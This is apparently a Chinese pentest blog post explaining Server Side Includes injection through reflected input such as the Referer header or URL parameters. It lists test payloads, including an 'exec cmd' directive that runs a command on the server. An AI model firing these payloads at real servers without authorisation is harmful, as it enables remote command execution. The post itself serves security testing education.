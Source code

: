 +++
date = "2017-06-08T11:20:15+08:00"
description = ""
draft = false
tags = ["injection"]
title = "SSI注入"
topics = ["Pentest"]

+++

### 0x00 SSI
SSI (Server Side Includes)是HTML页面中的指令，在页面被提供时由服务器进行运算，以对现有HTML页面增加动态生成的内容，而无须通过CGI程序提供其整个页面，或者使用其他动态技术。

在很多场景中，用户输入的内容可以显示在页面中，一个存在反射XSS漏洞的页面，如果输入的payload不是xss代码而是ssi的标签，服务器又开启了ssi支持的话就会存在SSI漏洞

若注入点在url中则可能需要进行url编码

### 0x01 payload
```
"-->'-->`--><!--#set var="a" value="123"--><!--#set var="b" value="654"--><!--#echo var="a"--><!--#echo var="b"-->

<!--#echo var="DATE_LOCAL" -->

<!--#exec cmd="dir" -->
```

### 0x02 示例
* Referer被输出到了页面中

![ssi漏洞](/img/post/ssi_in_referer_request.png)

![ssi漏洞](/img/post/ssi_in_referer_response.png)

* url中的数据被输出到页面中(有时候url中的payload需要url编码)

![ssi漏洞](/img/post/ssi_in_url_request.png)

![ssi漏洞](/img/post/ssi_in_url_response.png)
